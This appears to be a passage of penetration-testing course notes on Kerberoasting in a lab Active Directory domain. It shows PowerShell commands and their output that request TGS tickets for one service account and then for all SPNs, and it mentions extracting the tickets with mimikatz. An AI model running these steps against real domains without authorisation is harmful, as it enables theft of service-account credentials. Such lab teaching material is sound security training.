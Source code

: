 We can see that SPNs being returned from hosts in the domain.

We will focus on user accounts and ignore the computer accounts.

## Obtain TGS from specific user

Now that we have list of SPNs, we can use PowerShell to request TGS tickets for an account and load them into memory.

Once they are loaded, we can extract them using mimikatz. 

Let's request TGS for MSSQLSvc user:

```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```


## Obtain TGS from all users

We can also decide to retrieve all tickets using the same method as above.

This is also get ticket for computer accounts too, so it is not optimal.

```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/24/2022 11:58:18 PM
ServicePrincipalName : kadmin/changepw
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-5
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : WSMAN/ACADEMY-EA-MS01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

<SNIP>
```
